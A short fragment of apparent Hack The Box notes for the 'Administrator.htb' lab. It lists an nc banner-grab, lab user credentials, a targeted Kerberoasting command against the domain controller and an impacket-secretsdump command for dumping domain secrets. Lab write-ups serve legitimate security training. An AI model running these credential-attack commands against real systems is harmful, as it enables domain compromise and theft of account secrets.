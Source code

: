 ```bash
nc -nv <target-ip> <target-port>
```
Try pull service banner with ``nc``



"Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"

python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42

impacket-secretsdump "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"